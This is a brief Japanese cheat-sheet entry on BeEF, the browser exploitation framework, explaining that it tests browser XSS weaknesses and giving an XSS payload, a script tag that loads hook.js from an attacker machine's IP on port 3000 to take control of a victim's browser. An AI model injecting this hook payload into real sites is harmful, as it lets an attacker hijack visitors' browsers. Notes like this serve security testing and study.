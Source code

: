 # BeEF

1. ブラウザ向けの脆弱性を検証するツール(XSS)
2. メニューから`Beef start`を選択
3. XSSでBeEFのスクリプトを実行させて制御を奪う
    `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`
